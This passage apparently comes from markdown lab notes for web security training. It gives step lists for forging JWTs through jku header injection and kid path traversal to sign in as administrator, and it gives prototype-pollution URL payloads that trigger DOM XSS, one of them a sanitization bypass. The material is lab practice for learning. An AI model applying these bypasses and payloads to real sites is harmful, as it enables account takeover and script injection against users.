 ```
    ]
}
```
>5.4 Back to our JWT, replace the current value of the kid parameter with the kid of the JWK that you uploaded to the exploit server.  
>5.5 Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.  
>5.6 Change "sub" to administrator  
>5.7 Click "Sign" at the bottom of JSON Web Token tab in repeater and select your previously generated key  


### 6. JWT authentication bypass via kid header path traversal  
>6.1 JWT Editor Keys - New Symmetric Key - Generate - replace the value of "k" parameter to AA== - OK  
>6.2 Back to our JWT, replace "kid" parameter with ../../../../../dev/null  
>6.3 Change "sub" to administrator  
>6.4 Click "Sign" at the bottom of JSON Web Token tab in repeater and select your previously generated key  


# Prototype pollution
## Approach  
At first glance, a heavy topic in which, as you develop in it, you begin to capture the main essence. It fires very well with the DOM-Invader extension.
Arises, usually, in these JS files: searchLogger.js, searchLoggerAlternative.js and similar searchLogger...  
![image](https://user-images.githubusercontent.com/58632878/224733753-a5baf04e-8eb5-4a04-ad2a-ec5835aa2976.png)  
![image](https://user-images.githubusercontent.com/58632878/224734034-90a8cde7-18b1-4e81-8ad1-00d9b455c17f.png)  


## Labs
### 1. DOM XSS via client-side prototype pollution
```
https://site.com/?__proto__[transport_url]=data:,alert(1)
```

### 2. DOM XSS via an alternative prototype pollution vector
```
https://site.com/?__proto__.sequence=alert(1)-
```

### 3. Client-side prototype pollution via flawed sanitization
```
https://site.com/?__pro__proto__to__[transport_url]=data:,alert(1)
```
